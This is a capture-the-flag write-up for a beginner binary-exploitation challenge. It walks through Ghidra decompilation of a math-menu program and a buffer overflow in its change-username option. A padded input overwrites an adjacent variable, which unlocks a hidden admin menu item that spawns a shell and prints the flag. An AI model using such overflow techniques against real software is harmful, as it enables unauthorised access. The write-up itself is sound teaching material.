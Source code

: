 This write up is for the variable pwn challenge

The first thing I do I look at is the type of file and I run checksec in order to find the protections on this binary

From this

I then opened it up in Ghidra.

```C
undefined8 main(void)

{
  long in_FS_OFFSET;
  undefined4 local_48;
  undefined1 local_44;
  undefined4 local_18;
  int local_14;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stderr,(char *)0x0,2,0);
  local_48 = 0x72657375;
  local_44 = 0;
  local_18 = 0;
  do {
    local_14 = printMenu(&local_48,&local_18);
  } while (local_14 != 1);
  if (local_10 == *(long *)(in_FS_OFFSET + 0x28)) {
    return 0;
```
It looks like it just calls a print menu function, let's have a look at that. Ok that definitly how we are gonna be popping our shell. 

```C
    case 7:
      if (*param_2 != 1) goto switchD_001014cf_caseD_0;
      giveShell
```

It looks like if we can just call this case we can pop our shell, so our param_2 somehow needs to get set to 1. After looking through the other menu options it looks like we have a overflow in case 5.

```C
    case 5:
      puts("What would you like your new name to be?");
      getline(&local_48,local_40,stdin);
      iVar1 = __isoc99_sscanf(local_48,&DAT_001021a9,param_1);
      if (iVar1 != 1) {
        printf("Error reading in new name");
        *param_1 = 0x72657375;
        *(undefined1 *)(param_1 + 1) = 0;
      }
```

```C
printf("%d\n",(ulong)*param_2)
```

It also looks like the value of param_2 is displayed at the top whenever the program runs

```
1094795585
Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA, what kind of math will you do today?
1. Add two numbers
2. Subtract two numbers
3. Multiply two numbers
4. Divide two numbers
5. Change username
6. Exit
> 

```
 It seems that after entering a bunch of A's the value changed, but how is it being affected. I then kept putting less and less A'a untill I found where the over flow happens.

 ```
65
Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA, what kind of math will you do today?
1. Add two numbers
2. Subtract two numbers
3. Multiply two numbers
4. Divide two numbers
5. Change username
6. Exit
> 

```

Ok, so it looks like it is printing the representation of the A in decimal. I then created a script to send in that number of A's then \x01 to change the value to one and...

```
1
Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x01, what kind of math will you do today?
1. Add two numbers
2. Subtract two numbers
3. Multiply two numbers
4. Divide two numbers
5. Change username
6. Exit
7. Go to the admin prompt

```

I was able to get that menu option! Now I can just hit 7 to print my flag
```
> $ 7
CWE{you_dont_always_need_eip_E7pyjtjK}
```

